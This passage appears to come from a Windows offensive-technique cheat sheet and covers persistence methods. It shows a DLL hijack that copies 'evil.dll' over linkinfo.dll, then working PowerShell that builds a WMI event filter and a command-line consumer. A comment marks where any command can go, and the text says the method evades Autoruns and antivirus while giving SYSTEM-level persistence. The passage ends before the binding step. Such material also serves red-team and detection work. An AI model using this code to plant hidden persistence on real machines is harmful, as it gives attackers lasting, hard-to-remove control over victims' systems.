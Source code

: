 ##### linkinfo.dll Replacement

Windows explorer in older systems loads linkinfo.dll from c:\windows over c:\windows\system32 if it exists

```
    copy evil.dll c:\windows\linkinfo.dll
```

#### WMI Event Persistence via Powershell

WMI Event persistence explained, you can find a bloated version in powersploit.
Three parts to this:

- WMI Event Filter
- Event Consumer
- Filter/Consumer Binding
  This technique gets you _SYSTEM_ level persistence, requires admin rights to execute.
  Autoruns doesn't even check for this yet. (doubt any AVs are either)
  Difficult to detect, Difficult to remove if you dont know what youre doing.

##### WMI Event Filter

Create an event that checks every 60 seconds for a change in Win32_PerfFormattedData_PerfOS_System. (this is always changing)

```
    $EventFilter = ([WMICLASS]"\\.\root\subscription:__EventFilter").CreateInstance()
    $EventFilter.QueryLanguage  = "WQL"
    $EventFilter.Query          = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
    $EVentFilter.EventNamespace = "root\cimv2"
    $EventFilter.Name           = "OBVIOUSHACKER"
    $Result = $EventFilter.Put()
    $Filter = $Result.Path
```

http://msdn.microsoft.com/en-us/library/aa394639(v=vs.85).aspx

##### Event Consumer

Configure what to execute once the event occurs.
Current example is just a ping.

```
    $InstanceConsumer = ([wmiclass]"\\.\root\subscription:CommandLineEventConsumer").CreateInstance()
    $InstanceConsumer.Name = "OBVIOUSHACKER"
    $InstanceConsumer.CommandLineTemplate = "ping 127.0.0.1 -n 100"          #CMD TO EXECUTE HERE
    $InstanceConsumer.WorkingDirectory = "C:\\windows\\system32"
    $Result = $InstanceConsumer.Put()
    $Consumer = $Result.Path
```

http://msdn.microsoft.com/en-us/library/aa389231(v=vs.85).aspx
http://msdn.microsoft.com/en-us/library/aa393649(v=vs.85).aspx
